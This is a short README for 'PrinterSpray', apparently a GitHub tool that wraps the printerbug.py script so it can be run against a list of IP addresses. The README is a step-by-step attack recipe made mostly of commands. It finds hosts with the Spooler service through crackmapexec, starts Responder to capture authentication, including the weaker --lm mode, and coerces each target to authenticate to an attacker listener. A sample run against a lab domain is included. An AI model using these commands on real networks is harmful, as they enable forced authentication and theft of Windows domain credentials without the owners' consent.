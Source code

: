 # PrinterSpray

Wrapper of https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py to be used with a list of IPs. 

Discover potentual targets

```
crackmapexec smb [subnet] -M spooler | grep "Spooler service enabled" | awk -F " " '{print$2}' > spooler.txt
```

Have responder running

```
sudo responder -I [interface]
```
Also try with --lm

```
sudo responder -I [interface] --lm
```

Run against hosts that have the spooler service enabled

```
./printerspray.sh -t [targets file] -d [AD domain] -u [username] -p [pwd] -l [listenerIP]
```

Example:

```
./printerspray.sh -t ./spooler.txt -d 'labdomain.local' -u 'ADuser1' -p 'pwd' -l 192.168.1.23
```
